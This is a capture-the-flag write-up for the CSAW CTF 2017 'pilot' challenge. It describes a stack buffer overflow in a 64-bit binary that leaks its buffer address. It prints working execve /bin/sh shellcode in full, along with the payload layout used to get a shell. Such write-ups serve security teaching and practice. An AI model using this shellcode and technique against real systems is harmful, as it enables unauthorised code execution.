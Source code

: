 ### pilot - CSAW CTF 2017 - 75 points - Pwn
**Description - Can I take your order? **
**Files: [pilot](https://github.com/Fauer4Effect/write-ups/blob/master/pilot/pilot)**

*Solved by Fauer4Effect*

***

This is a fairly straightforwards buffer overflow, the only twist is that we need to increase the size of the stack.

From running file on the binary we can see that it's a 64 bit binary. Running the binary gives us a prompt, including a hex value that looks like a memory address, back to this later. Then it prompts us for a command, trying it with just random input and the binary exits.

![pilot prompt](https://github.com/Fauer4Effect/write-ups/blob/master/pilot/prompt.png)

The next thing we do is open it up in Binary Ninja and start looking for anything interesting. Looking at where the user input is received we can see that it will read up to 64 bytes of input but the buffer is only 32 bytes. This looks promising.

![vuln disassembly](https://github.com/Fauer4Effect/write-ups/blob/master/pilot/vuln.png)

ASLR is enabled but luckily the binary is really nice and prints us the address of our buffer.

The shellcode used is standard execve /bin/sh shellcode:

```
xor eax, eax
mov rbx, 0xFF978CD091969DD1
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov al, 0x3b
syscall
```

The only real source of difficulty is that this shellcode pushes a lot of stuff to the stack and our buffer is pretty small. This results in the pushed data overwriting the later parts of the shellcode which causes SEGFAULTS.

There's a pretty simple solution to this problem, we'll just make more space.

We'll just add another instruction to the front of our shellcode, `sub rsp, 0x30`

So our exploit is going to look like the following

`sub_rsp + shellcode + nops + buffer_addr`

We can easily pull the buffer address from the prompt, just make sure to remember to pad it out to full length.

And boom shell...

![shell](https://github.com/Fauer4Effect/write-ups/blob/master/pilot/shell.png)

then ls
and cat flag

`flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}`
